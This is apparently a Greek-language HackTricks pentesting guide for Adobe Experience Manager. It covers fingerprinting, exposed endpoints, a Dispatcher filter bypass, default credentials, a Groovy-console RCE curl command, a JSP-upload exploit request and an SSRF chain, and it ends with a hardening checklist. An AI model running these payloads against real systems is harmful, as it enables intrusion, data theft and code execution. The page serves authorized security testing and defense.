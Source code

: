 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, μέρος του Adobe Experience Cloud) είναι ένα enterprise CMS που τρέχει πάνω από το Apache Sling/Felix (OSGi) και ένα Java Content Repository (JCR).
> Από την οπτική γωνία ενός επιτιθέμενου, οι περιπτώσεις AEM συχνά εκθέτουν επικίνδυνες αναπτυξιακές τελικές σημεία, αδύναμους κανόνες Dispatcher, προεπιλεγμένα διαπιστευτήρια και μια μακρά λίστα CVEs που διορθώνονται κάθε τρίμηνο.

Η παρακάτω λίστα ελέγχου εστιάζει σε **εξωτερικά προσβάσιμη (unauth) επιφάνεια επίθεσης** που συνεχίζει να εμφανίζεται σε πραγματικές εμπλοκές (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Άλλοι γρήγοροι δείκτες:
* `/etc.clientlibs/` στατικός δρόμος παρών (επιστρέφει JS/CSS).
* `/libs/granite/core/content/login.html` σελίδα σύνδεσης με την μπάντα “Adobe Experience Manager”.
* `</script><!--/* CQ */-->` σχόλιο στο κάτω μέρος του HTML.

---

## 2. Υψηλής αξίας μη αυθεντικοποιημένα endpoints

Δρόμος | Τι παίρνετε | Σημειώσεις
---- | ------------- | -----
`/.json`, `/.1.json` | JCR κόμβοι μέσω **DefaultGetServlet** | Συχνά μπλοκαρισμένο, αλλά *Dispatcher bypass* (βλ. παρακάτω) λειτουργεί.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Διαρροή δέντρου σελίδας, εσωτερικών δρόμων, ονομάτων χρηστών.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix κονσόλα | 403 από προεπιλογή; αν εκτεθεί & βρεθούν διαπιστευτήρια ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Package Manager | Επιτρέπει αυθεντικοποιημένα πακέτα περιεχομένου → ανέβασμα JSP payload.
`/etc/groovyconsole/**` | AEM Groovy Console | Αν εκτεθεί → αυθαίρετη εκτέλεση Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Αρχεία καταγραφής ελέγχου | Διαρροή πληροφοριών.
`/libs/cq/ui/content/dumplibs.html` | Dump ClientLibs | XSS vector.

### Τέχνασμα παράκαμψης Dispatcher
Οι περισσότερες παραγωγικές τοποθεσίες βρίσκονται πίσω από τον *Dispatcher* (αντίστροφος διακομιστής). Οι κανόνες φίλτρου του μπορούν να παρακαμφθούν προσθέτοντας μια επιτρεπόμενη στατική επέκταση **μετά από ένα ερωτηματικό ή κωδικοποιημένο νέο γραμμή**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Μια μόνο αίτηση όπως παραπάνω αποκαλύπτει συχνά κόμβους προφίλ χρηστών με διευθύνσεις email. Οι P-T Partners δημοσίευσαν καλές οδηγίες σχετικά με αυτή την αδυναμία. 【】

---

## 3. Κοινές κακοδιαμορφώσεις (ακόμα ζωντανές το 2025)

1. **Ανώνυμος POST servlet** – `POST /.json` με `:operation=import` σας επιτρέπει να φυτέψετε νέους κόμβους JCR. Η μπλοκάρισμα του `*.json` POST στον Dispatcher το διορθώνει. 【】
2. **Προφίλ χρηστών προσβάσιμα από όλους** – η προεπιλεγμένη ACL παραχωρεί `jcr:read` στο `/home/users/**/profile/*` σε όλους.
3. **Προεπιλεγμένα διαπιστευτήρια** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** ενεργοποιημένο ⇒ αντανάκλαση XSS μέσω `?debug=layout` (CVE-2016-7882, ακόμα βρέθηκε σε παλιές εγκαταστάσεις 6.4).
5. **Εκτεθειμένη Groovy Console** – απομακρυσμένη εκτέλεση κώδικα στέλνοντας ένα σενάριο Groovy:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Πρόσφατες ευπάθειες (ρυθμός service-pack)

Τρίμηνο | CVE | Επηρεαζόμενα | Επιπτώσεις
------- | --- | -------- | ------
Δεκ 2024 | **CVE-2024-43711** | 6.5.21 και νωρίτερα | Ακατάλληλη επικύρωση εισόδου → **Αυθαίρετη εκτέλεση κώδικα** (απαιτεί χαμηλά προνόμια). 【】
Δεκ 2024 | CVE-2024-43724/26 | 6.5.21 και νωρίτερα | DOM / Αποθηκευμένο XSS στο Move Page Wizard. 【】
Δεκ 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS βασισμένο σε DOM μέσω κατεργασμένου URL. 【】
Δεκ 2022 | CVE-2022-30683 | ≤ 6.5.13 | Σφάλμα σχεδίασης κρυπτογράφησης → αποκρυπτογράφηση μυστικών (χρειάζονται χαμηλά προνόμια). 【】

Ελέγξτε πάντα το *APSB* δελτίο που αντιστοιχεί στο service-pack του πελάτη και ζητήστε την τελευταία **6.5.22** ή *Cloud Service 2024.11*.

---

## 5. Αποσπάσματα εκμετάλλευσης

### 5.1 RCE μέσω παράκαμψης dispatcher + ανέβασμα JSP
Αν είναι δυνατή η ανώνυμη εγγραφή:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Τώρα ζητήστε το `/content/evil.jsp` – το JSP εκτελείται με τον χρήστη διαδικασίας AEM.

### 5.2 SSRF σε RCE (ιστορικό < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` από **aem-hacker** αυτοματοποιεί την πλήρη αλυσίδα. 【】

---

## 6. Εργαλεία

* **aem-hacker** – σενάριο καταμέτρησης Swiss-army, υποστηρίζει παράκαμψη dispatcher, ανίχνευση SSRF, ελέγχους προεπιλεγμένων διαπιστευτηρίων και άλλα.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – ζητήστε αναδρομικά `/_jcr_content.(json|html)` για να ανακαλύψετε κρυφά στοιχεία.
* **osgi-infect** – ανεβάστε κακόβουλο OSGi bundle μέσω `/system/console/bundles` αν είναι διαθέσιμα διαπιστευτήρια.

---

## 7. Λίστα ελέγχου σκληρύνσης (για τις συστάσεις της αναφοράς σας)

1. Διατηρήστε την έκδοση στην **τελευταία σωρευτική υπηρεσία** (από Ιούλιο 2025: 6.5.22).
2. Αφαιρέστε/περιστρέψτε τους προεπιλεγμένους λογαριασμούς; επιβάλετε SSO/SAML.
3. Σφίξτε τους **φίλτρους Dispatcher** – απορρίψτε `;`, κωδικοποιημένες νέες γραμμές, και `*.json` ή `*.querybuilder.json` για ανώνυμους χρήστες.
4. Απενεργοποιήστε ή προστατέψτε τις κονσόλες (`/system/console`, `/crx/*`, `/etc/groovyconsole`) με λίστες επιτρεπόμενων IP.
5. Εφαρμόστε το πακέτο *Anonymous Permission Hardening* που παρέχεται από την Adobe.

## Αναφορές

* Adobe Security Bulletin APSB24-69 – “Ενημερώσεις ασφαλείας για το Adobe Experience Manager (Δεκ 2024)”.
* 0ang3el – εργαλείο aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
